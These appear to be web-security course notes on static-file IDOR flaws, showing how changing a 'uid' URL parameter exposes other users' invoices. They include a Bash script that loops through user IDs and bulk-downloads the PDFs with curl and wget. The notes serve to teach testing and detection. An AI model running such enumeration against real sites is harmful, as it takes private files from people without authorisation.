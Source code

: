 ### **Insecure Parameters**

- Web app passes user identifier `uid` in URL:  
    `/documents.php?uid=1`
- File names include UID:  
    `/documents/Invoice_1_09_2021.pdf`, `/documents/Report_1_10_2021.pdf`
- Changing UID in URL to another value (e.g., `uid=2`) displays another user’s documents:
    - `/documents/Invoice_2_08_2020.pdf`, etc.
    
- Indicates lack of access control on backend
- Known as _static file IDOR_ — file access based on predictable names or references

---

### **Mass Enumeration**

#### **Manual Enumeration**

- Change `uid` in the query string (`?uid=2`, `?uid=3`, ...) to access other users’ files

#### **Automated Enumeration**

- Use tools like **Burp Intruder**, **ZAP Fuzzer**, or a **Bash script** to automate enumeration and downloading

Example Bash Script
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link
    done
done
```
#### **Breakdown**

- `curl`: Sends HTTP GET request for each `uid`
- `grep -oP "\/documents.*?.pdf"`: Extracts PDF links from HTML
- `wget`: Downloads each file silently

### **Best Practices for Detection**

- Check for URL parameters like `uid`, `user_id`, `account`, etc.
- Look for predictable or sequential identifiers
- Review HTML source or network traffic for object references
- Test unauthorized access by changing values in requests

